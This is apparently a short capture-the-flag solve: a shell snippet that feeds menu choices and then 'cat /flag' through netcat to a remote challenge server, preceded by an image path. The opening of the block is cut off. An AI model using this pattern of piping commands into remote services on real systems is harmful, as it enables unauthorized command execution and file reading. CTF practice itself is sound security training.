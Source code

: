 ```shell
  sleep 0.1
  echo "B"
  sleep 0.1
  echo "D"
  sleep 0.1
  echo "A"
  sleep 0.1
  echo "cat /flag"
} | nc 405.trainoi.com 27165
```